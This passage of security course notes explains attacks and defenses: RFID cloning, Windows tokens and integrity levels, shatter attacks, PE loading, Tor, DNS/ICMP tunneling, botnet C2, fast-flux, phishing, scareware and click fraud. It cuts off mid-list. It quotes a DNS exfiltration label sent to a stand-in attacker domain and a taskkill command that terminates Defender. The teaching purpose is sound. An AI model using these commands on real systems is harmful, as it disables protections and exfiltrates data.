  $$T_1 = H + \Sigma_1(E) + \text{Ch}(E, F, G) + K_t + W_t$$
  $$T_2 = \Sigma_0(A) + \text{Maj}(A, B, C)$$
  $$H = G, \quad G = F, \quad F = E, \quad E = D + T_1$$
  $$D = C, \quad C = B, \quad B = A, \quad A = T_1 + T_2$$
  - $\text{Ch}(X, Y, Z) = (X \land Y) \oplus (\neg X \land Z)$
  - $\text{Maj}(X, Y, Z) = (X \land Y) \oplus (X \land Z) \oplus (Y \land Z)$

---

## 1.7 Radio-Frequency Identification (RFID) Security Architecture

RFID systems communicate wirelessly via electromagnetic and radio frequency fields to identify tagged assets:
- **Frequency Bands**:
  - Low Frequency (LF: 125–134 kHz): Short read range ($<10$ cm). Animal tracking, legacy building access cards.
  - High Frequency (HF: 13.56 MHz): Standard Near-Field Communication (NFC), smart passports, payment cards (EMV).
  - Ultra-High Frequency (UHF: 860–960 MHz): Long read range (up to 12 meters). Supply chain logistics, toll collection.
- **Security Vulnerabilities in RFID**:
  - *Cloning Attacks*: Legacy RFID cards (e.g., HID ProxCard II, MIFARE Classic) transmit static, unencrypted identifiers. Handheld transceivers (e.g., Proxmark3, Flipper Zero) sniff and clone badges in seconds.
  - *Crypto-1 Cipher Compromise*: MIFARE Classic cards rely on a proprietary 48-bit stream cipher (Crypto-1). Inherent algebraic weaknesses enable offline cryptographic key recovery within minutes from eavesdropped authentication handshakes.
  - *Relay Attacks*: An attacker with two networked transceivers relays the radio signal between an authentic smart key in the victim's pocket and a vehicle parked outside, unlocking and starting the car without physical possession of the key.

---

# Module 2: Windows Operating System Security Architecture & Process Execution

## 2.1 The Windows Security Model: SIDs, Tokens & Descriptors

The Microsoft Windows NT operating system architecture enforces access control via the **Security Reference Monitor (SRM)**, an executive component residing within the Windows kernel (`ntoskrnl.exe`).

Whenever a thread attempts to access an object (such as a file, registry key, process, or semaphore), the SRM evaluates the thread's **Access Token** against the target object's **Security Descriptor**.



### Components of the Access Evaluation Engine
1. **Security Identifier (SID)**:
   - A variable-length binary string uniquely identifying a security principal (user, security group, or computer).
   - Formatted as `S-R-I-S-S...` (e.g., `S-1-5-32-544` represents the well-known local Administrators group; `S-1-5-18` represents `NT AUTHORITY\SYSTEM`).
2. **Access Token**:
   - Represents the security context of a process or thread. Created by the Local Security Authority Subsystem Service (`LSASS.exe`) upon successful logon.
   - Contains: User SID, Group SIDs, Restricted SIDs, Authentication ID, Privileges, and Token Type (Primary vs. Impersonation).
3. **Security Descriptor (SD)**:
   - Accompanies every securable Windows kernel object.
   - Contains:
     - **DACL (Discretionary Access Control List)**: Contains Access Control Entries (ACEs) specifying who can perform what operations (`GENERIC_READ`, `GENERIC_WRITE`, `DELETE`).
     - **SACL (System Access Control List)**: Contains ACEs dictating which access attempts generate audit event records in the Windows Security Event Log.
4. **DACL Evaluation Rules**:
   - Evaluated sequentially from top to bottom.
   - **Explicit Access Denied ACEs take precedence over Access Allowed ACEs**.
   - If a requested permission is not explicitly permitted by the time the end of the DACL is reached, access is **implicitly denied**.
   - A NULL DACL grants full access to everyone; an empty DACL (zero ACEs) denies access to all subjects.

---

## 2.2 Windows Messaging Subsystem & Shatter Attacks

Windows GUI applications are event-driven, operating via the **Windows Messaging Subsystem** implemented in `win32k.sys` (kernel space) and `user32.dll` (user space).

Processes communicate with windows and UI elements using the `SendMessage` and `PostMessage` Win32 APIs, targeting specific **Window Handles (`HWND`)**.



### The Shatter Attack Mechanism
In legacy Windows architectures (Windows 2000, XP, Server 2003):
1. Services running as `NT AUTHORITY\SYSTEM` could be configured with the "Interact with Desktop" flag, allowing them to render status dialogs on the interactive user desktop (`WinSta0`).
2. Because all processes within the same desktop shared a unified window message space, a low-privileged local user could discover the `HWND` of the elevated window.
3. By issuing `SendMessage` with message IDs such as `WM_TIMER` or `EM_SETWORDBREAKPROC`, the unprivileged process passed a function pointer pointing to injected shellcode.
4. The elevated process dispatched the message and executed the attacker's shellcode with full `SYSTEM` privileges.
5. **Modern Mitigations**: Microsoft introduced **User Interface Privilege Isolation (UIPI)** and mandatory integrity levels in Windows Vista, completely blocking lower-integrity processes from sending window messages to higher-integrity windows.

---

## 2.3 The Windows PE Program Execution Lifecycle

When an executable binary (Portable Executable - PE format) is launched, the Windows kernel and user-mode subsystems execute an elaborate, multi-stage initialization workflow:



### Detailed Execution Stages
1. **Validation & Image Conversion**:
   - The kernel validates DOS header `IMAGE_DOS_HEADER.e_magic` (`0x5A4D` / `MZ`).
   - Validates `IMAGE_NT_HEADERS.Signature` (`0x00004550` / `PE\0\0`).
   - Checks PE architecture (x86 32-bit vs. x64 64-bit) and subsystem (`IMAGE_SUBSYSTEM_WINDOWS_GUI` vs. `CUI`).
2. **Process Object Creation**:
   - The kernel allocates the executive process block (`EPROCESS`) in non-paged kernel pool memory.
   - Allocates the root page table directory (CR3 register context) establishing a private virtual address space.
3. **Section Mapping**:
   - Maps the executable image sections into the address space:
     - `.text` (Executable code, marked `PAGE_EXECUTE_READ`).
     - `.rdata` (Read-only data, strings, import descriptors).
     - `.data` (Global initialized variables, marked `PAGE_READWRITE`).
     - `.reloc` (Relocation tables for Address Space Layout Randomization).
4. **User-Mode Loader Initialization (`LdrInitializeThunk`)**:
   - The thread begins execution in user mode at `ntdll!LdrInitializeThunk`.
   - Resolves all dependent Dynamic Link Libraries (DLLs) specified in the Import Directory Table.
   - Populates the **Import Address Table (IAT)** with runtime memory addresses of imported Win32 APIs.
   - Executes **Thread Local Storage (TLS) Callbacks** (frequently abused by malware to execute malicious code *before* the application entry point is reached).
5. **Entry Point Dispatch**:
   - Control is handed over to the entry point address recorded in `IMAGE_OPTIONAL_HEADER.AddressOfEntryPoint`.

---
---

## 2.4 Deep Windows Internals: Integrity Levels & Token Impersonation

### 1. Mandatory Integrity Control (MIC)
Introduced in Windows Vista to supplement standard DACLs, **Mandatory Integrity Control** assigns an Integrity Level (IL) to processes and objects:

| Integrity Level | Security SID | Typical Subjects & Objects | Security Constraints |
| :--- | :--- | :--- | :--- |
| **Untrusted** | `S-1-16-0` | Anonymous sessions, restricted sandboxes | Cannot write to any filesystem or registry locations. |
| **Low** | `S-1-16-4096` | Sandboxed browser tabs (Edge, Chrome), protected mode apps | Can only write to Low-Integrity folders (e.g., `%TEMP%\Low`). |
| **Medium** | `S-1-16-8192` | Standard interactive user processes | Standard user files and user registry hives. |
| **High** | `S-1-16-12288` | Elevated Administrator processes (UAC approved) | Full write access to `C:\Windows`, `C:\Program Files`, `HKLM`. |
| **System** | `S-1-16-16384` | Windows OS core services, `NT AUTHORITY\SYSTEM` | Operating system kernel, drivers, system services. |

- **No-Write-Up (NWU) Invariant**: A process executing at a lower integrity level can never write to, inject into, or modify an object with a higher integrity level, even if the user's DACL would otherwise permit it!
- **No-Read-Up (NRU) Invariant**: By default, Windows permits reading objects with higher integrity levels, unless explicitly flagged with `SYSTEM_MANDATORY_LABEL_NO_READ_UP`.

### 2. Token Impersonation Levels
When a client connects to a server process via RPC, named pipes, or DCOM, the server thread can impersonate the client context according to the **Impersonation Level** granted by the token:
- `SecurityAnonymous`: Server cannot identify the client and cannot impersonate.
- `SecurityIdentification`: Server can query the client's identity (SID, groups) for access logging, but cannot impersonate the client to access resources.
- `SecurityImpersonation`: Server can impersonate the client's security context to access local resources on the same machine.
- `SecurityDelegation`: Server can impersonate the client across remote network hops (requires Active Directory Kerberos Unconstrained/Constrained Delegation).

---

## 2.5 Detailed Portable Executable (PE) File Header Structure

The PE file format (derived from Common Object File Format - COFF) structures all 32-bit and 64-bit Windows executables (`.exe`, `.dll`, `.sys`):

```
+---------------------------------------------------------------------------------+
| DOS MZ Header (e_magic = 'MZ' = 0x5A4D)                                         |
| e_lfanew (Offset to NT Header, typically at 0x3C)                               |
+---------------------------------------------------------------------------------+
| DOS Stub ("This program cannot be run in DOS mode")                             |
+---------------------------------------------------------------------------------+
| PE NT Headers (Signature = 'PE' = 0x00004550)                               |
| +-----------------------------------------------------------------------------+ |
| | File Header (COFF): Machine, NumberOfSections, TimeDateStamp                | |
| +-----------------------------------------------------------------------------+ |
| | Optional Header:                                                            | |
| |   Magic (0x10B = 32-bit PE32, 0x20B = 64-bit PE32+)                         | |
| |   AddressOfEntryPoint (RVA of execution start)                              | |
| |   ImageBase (Preferred base address in memory: 0x00400000 or 0x140000000)   | |
| |   SectionAlignment, FileAlignment                                           | |
| |   DllCharacteristics:                                                       | |
| |     IMAGE_DLLCHARACTERISTICS_DYNAMIC_BASE (ASLR Enabled)                    | |
| |     IMAGE_DLLCHARACTERISTICS_NX_COMPAT   (DEP/NX Enabled)                   | |
| |     IMAGE_DLLCHARACTERISTICS_GUARD_CF    (Control Flow Guard)               | |
| |   DataDirectory[16]:                                                        | |
| |     [0] Export Directory                                                    | |
| |     [1] Import Directory (Import Directory Table -> IAT)                    | |
| |     [2] Resource Directory                                                  | |
| |     [5] Base Relocation Table (.reloc)                                      | |
| +-----------------------------------------------------------------------------+ |
+---------------------------------------------------------------------------------+
| Section Table (Section Headers: .text, .data, .rdata, .pdata, .rsrc)            |
+---------------------------------------------------------------------------------+
| Raw Section Data (.text instructions, .rdata constants, .data globals)          |
+---------------------------------------------------------------------------------+
```

---

# Module 3: Attacker Infrastructure, Anonymization & Tunneling Techniques

## 3.1 Proxies, Relays & Anonymization Networks

Sophisticated cyber adversaries decouple their physical identity and location from target victim networks by routing attacks through complex layers of intermediate proxies and anonymization circuits.



### Proxy Protocols & Characteristics
1. **HTTP / HTTPS Proxies**:
   - Designed for application-level forwarding of web traffic.
   - *HTTP CONNECT Method*: Enables transparent tunneling of encrypted TLS connections through the proxy without terminating the SSL session.
   - *Header Leakage*: Misconfigured proxies often insert headers exposing the real source IP address:
     - `X-Forwarded-For: <Client_IP>`
     - `Via: <Proxy_Identifier>`
     - `Client-IP: <Original_IP>`
2. **SOCKS Proxies (SOCKS4 / SOCKS5)**:
   - Operates at the transport layer (Layer 5), protocol-agnostic.
   - *SOCKS4*: Supports only IPv4 TCP connections; cannot resolve hostnames on the proxy side (leading to DNS leakage at the client).
   - *SOCKS5*: Supports IPv4, IPv6, UDP relaying, authentication schemes, and proxy-side DNS resolution (preventing client DNS leaks).
3. **The Onion Router (TOR)**:
   - Routes traffic through volunteer-operated distributed overlay networks.
   - Employs **multi-layered onion routing**:
     - Client negotiates a 3-hop circuit: Guard Node $\rightarrow$ Middle Relay $\rightarrow$ Exit Node.
     - Payload is encrypted with 3 layers of AES keys. Each node peels off exactly one layer of encryption, learning only the immediate preceding and succeeding nodes.
     - The Exit Node connects to the target destination. Destination logs record only the IP address of the TOR Exit Node.

---

## 3.2 Covert Tunneling & Protocol Smuggling

Security perimeters frequently enforce strict egress filtering, permitting outbound traffic only over standard ports (such as HTTP port 80, HTTPS port 443, and DNS port 53). Adversaries bypass egress controls by **tunneling** unauthorized protocols (e.g., interactive command shells, file transfers, malware C2) inside legitimate carrier protocols.

```mermaid
graph TD
    subgraph DNS_Tunneling_Architecture["Covert DNS Tunneling & Data Exfiltration Mechanism"]
        direction TB
        
        Victim["Compromised Internal Host<br/>(Firewall blocks direct outbound TCP/UDP)"]
        Resolver["Enterprise Internal Recursive DNS<br/>(Permitted Outbound Port 53 UDP)"]
        Authoritative["Attacker Authoritative Name Server<br/>(Controlled by Threat Actor)"]
        C2_App["Attacker C2 Controller<br/>(Reassembles Decoded Shell/Files)"]
        
        Victim -->|"1. Query: b64enc_chunk1.malicious.net"| Resolver
        Resolver -->|"2. Recursive Lookup via Root/TLD"| Authoritative
        Authoritative -->|"3. Reassembles Exfiltrated Base64 Data"| C2_App
        Authoritative -->>|"4. Returns TXT Record with Staged Command"| Resolver
        Resolver -->>|"5. Delivers Command Payload"| Victim
    end
    
    style DNS_Tunneling_Architecture fill:#f9f9f9,stroke:#34495e,stroke-width:2px;
    style Victim fill:#fadbd8,stroke:#e74c3c,stroke-width:2px;
    style Resolver fill:#fef9e7,stroke:#f39c12,stroke-width:2px;
    style Authoritative fill:#ebf5fb,stroke:#2980b9,stroke-width:2px;
    style C2_App fill:#d4efdf,stroke:#27ae60,stroke-width:2px;
```

### Tunneling Modalities
1. **HTTP/HTTPS Tunneling**:
   - Encapsulates raw TCP connections inside standard HTTP `POST` requests or WebSocket channels. Data payloads are base64-encoded or XOR-scrambled inside innocent-looking HTTP request bodies (e.g., mimicking JSON analytics beacons or JPEG image uploads).
2. **DNS Tunneling**:
   - Encapsulates bidirectional communication inside DNS query and response records.
   - *Exfiltration (Outbound)*: Data is segmented, encoded into subdomain labels, and prepended to the attacker's domain (e.g., `cmVnaXN0cnlfZHVtcA==.c2.attacker.com`).
   - *Infiltration (Inbound C2)*: The attacker's authoritative nameserver responds with base64-encoded commands packed into `TXT`, `CNAME`, or `NULL` records.
   - *Detection Indicators*: Unusually high query volume to single apex domains, abnormally long domain labels ($>50$ characters), high Shannon entropy in subdomains, and an abnormal ratio of `TXT` record queries.
3. **ICMP Tunneling**:
   - Exploits the optional data payload field of ICMP Echo Request (`ping` type 8) and Echo Reply (type 0) packets.
   - Utilities like `ptunnel` insert arbitrary TCP streams into the ICMP data payload, evading firewalls that permit ICMP echo without inspecting payload bytes.

---

## 3.3 Botnet Command & Control (C2) Architectures

A **botnet** is a distributed network of compromised computing nodes (bots/zombies) controlled remotely by a threat actor (botmaster) to conduct distributed denial-of-service (DDoS) campaigns, click fraud, credential stuffing, and mass spam distribution.



### Architectural Evolutions
1. **Centralized C2 (IRC / HTTP / HTTPS)**:
   - Early botnets utilized Internet Relay Chat (IRC) channels. Bots connected to a hidden chatroom, executing commands issued by the botmaster.
   - Modern centralized botnets utilize HTTPS web servers, periodic polling beacons, and Domain Generation Algorithms (DGA).
   - *Vulnerability*: Single point of failure. Law enforcement and security teams can seize the C2 server IP or sinkhole the domain name, instantly severing the entire botnet.
2. **Peer-to-Peer (P2P) Botnets (e.g., Storm, Zeus Gameover)**:
   - Bots communicate with each other using distributed hash tables (DHT) and custom overlay protocols.
   - No single central server exists. Commands are cryptographically signed with the botmaster's asymmetric private key and gossiped through the peer network.
   - Defeats simple IP-blocking and domain takedown actions; dismantling requires poisoning peer routing tables or sybil attacks.

---

## 3.4 Fast-Flux DNS & Resilient Hosting Networks

To prevent defenders from taking down command-and-control servers via IP blocking, botmasters deploy **Fast-Flux DNS** networks.



### Fast-Flux Implementations
1. **Single-Flux DNS**:
   - The FQDN's `A` records are constantly rotated, returning a different pool of IP addresses on every query.
   - DNS TTL values are set to extremely short durations (e.g., 60 to 300 seconds).
   - The IP addresses returned belong to a swarm of compromised volunteer or consumer hosts executing lightweight reverse-proxy software (e.g., Nginx or custom redirector daemons) that transparently forward traffic back to a hidden backend "mothership" C2 server.
2. **Double-Flux DNS**:
   - Both the **A records** of the domain AND the **NS records** (the authoritative nameservers for the domain) rapidly fluctuate across hundreds of compromised IP addresses.
   - Eliminates the vulnerability of relying on static nameservers. Takedown requires direct intervention at the parent Top-Level Domain (TLD) registrar registry level to revoke the domain delegation.

---
---

## 3.5 Network Protocol Dissection: SOCKS5 Handshake & Tor Cells

### 1. SOCKS5 Protocol Specification (RFC 1928)
Unlike HTTP proxies that operate at Layer 7, SOCKS5 operates at Layer 5, facilitating arbitrary TCP/UDP streaming without protocol inspection.

```
1. Client Version Identification & Method Selection Request:
+----+----------+----------+
|VER | NMETHODS | METHODS  |
+----+----------+----------+
| 1  |    1     | 1 to 255 |
+----+----------+----------+
• VER: 0x05 (SOCKS5)
• NMETHODS: Number of authentication methods supported
• METHODS: 0x00 (No Authentication), 0x02 (Username/Password)

2. Server Method Selection Response:
+----+--------+
|VER | METHOD |
+----+--------+
| 1  |   1    |
+----+--------+
• Returns selected method (e.g., 0x00 or 0xFF if no acceptable methods)

3. Client Connection Request (e.g., CONNECT to target C2):
+----+-----+-------+------+----------+----------+
|VER | CMD |  RSV  | ATYP | DST.ADDR | DST.PORT |
+----+-----+-------+------+----------+----------+
| 1  |  1  | X'00' |  1   | Variable |    2     |
+----+-----+-------+------+----------+----------+
• CMD: 0x01 (CONNECT), 0x02 (BIND), 0x03 (UDP ASSOCIATE)
• ATYP: 0x01 (IPv4 - 4 bytes), 0x03 (Domain name), 0x04 (IPv6 - 16 bytes)
• DST.ADDR & DST.PORT: Final target address and port
```

### 2. Tor Fixed-Size 512-Byte Cell Structure
Tor mitigates packet-size statistical traffic analysis by packing all network commands into uniform 512-byte **Cells**:
```
+---------------------------------------------------------------------------------+
| Circuit ID (CircID: 2 or 4 Bytes) | Command (1 Byte) | Payload (509 or 507 Bytes)|
+---------------------------------------------------------------------------------+
```
- **Control Cells**: Handled directly by the receiving node (`CREATE`, `CREATED`, `DESTROY`, `PADDING`).
- **Relay Cells**: Encapsulated end-to-end data streams (`RELAY_BEGIN`, `RELAY_DATA`, `RELAY_END`, `RELAY_EXTEND`).

---

# Module 4: Social Engineering, Fraud & Deception Campaigns

## 4.1 Social Engineering Vectors: Phishing, Smishing & Vishing

While technical exploits target vulnerabilities in software and hardware architectures, **social engineering** exploits psychological vulnerabilities in human cognition (authority, urgency, fear, greed, curiosity, and reciprocity).



### Exploitation Mechanics
1. **Spear-Phishing & Business Email Compromise (BEC)**:
   - Adversaries conduct extensive Open-Source Intelligence (OSINT) gathering across LinkedIn, corporate press releases, and vendor associations.
   - Construct contextual lures mimicking internal workflows (e.g., urgent invoice approval, shared OneDrive documentation, travel reimbursement).
   - Exploits email spoofing vulnerabilities (lack of strict SPF, DKIM, and DMARC enforcement).
2. **Smishing & Vishing**:
   - Bypasses enterprise email security gateways entirely by targeting mobile devices directly.
   - Exploits caller-ID spoofing to impersonate internal corporate IT support desks, tricking users into revealing MFA session codes or authenticating push notifications (MFA Fatigue / Prompt Bombing).

---

## 4.2 Rogue Antivirus & Scareware Monetization Pipelines

**Rogue Antivirus** (commonly referred to as **Scareware**) represents a highly lucrative cybercriminal monetization ecosystem that combines social engineering, web drive-by manipulation, and deceptive software engineering.



### Architectural Characteristics of Rogue Antivirus
1. **Drive-By Social Engineering**:
   - Uses browser locking techniques (infinite JavaScript loops, full-screen canvas rendering mimicking OS error dialogs) to induce panic.
2. **System Subversion**:
   - Once executed, the binary adds itself to registry startup keys (`HKCU\Software\Microsoft\Windows\CurrentVersion\Run`).
   - Terminates genuine antivirus processes (`taskkill /f /im msmpeng.exe`), modifies the Windows `hosts` file to block access to security vendors, and continuously displays fake alert notifications.
3. **Monetization Pipeline**:
   - The software insists that removal of the "critical trojans" requires purchasing a lifetime software license for $49.99 to $99.99.
   - Credit card transactions are funneled through shadowy merchant accounts, resulting in direct financial fraud and credit card data harvesting.

---

## 4.3 Click Fraud Architecture & Pay-Per-Click Exploitation

Digital advertising is dominated by the **Pay-Per-Click (PPC)** model, where advertisers pay ad networks (such as Google AdSense, Bing Ads) every time an Internet user clicks an advertisement.

**Click Fraud** occurs when an automated software program, script, or human click-farm intentionally generates fraudulent clicks on online advertisements without genuine user interest, siphoning billions of dollars from advertisers.



### Click Fraud Tactics
1. **Hidden Iframes & Ad Stacking**:
   - The fraudulent website loads ad banners inside invisible $1\times 1$ pixel iframes or stacks dozens of ad banners directly on top of each other. A single user click registers dozens of simultaneous ad impressions and clicks.
2. **Automated Headless Browsers**:
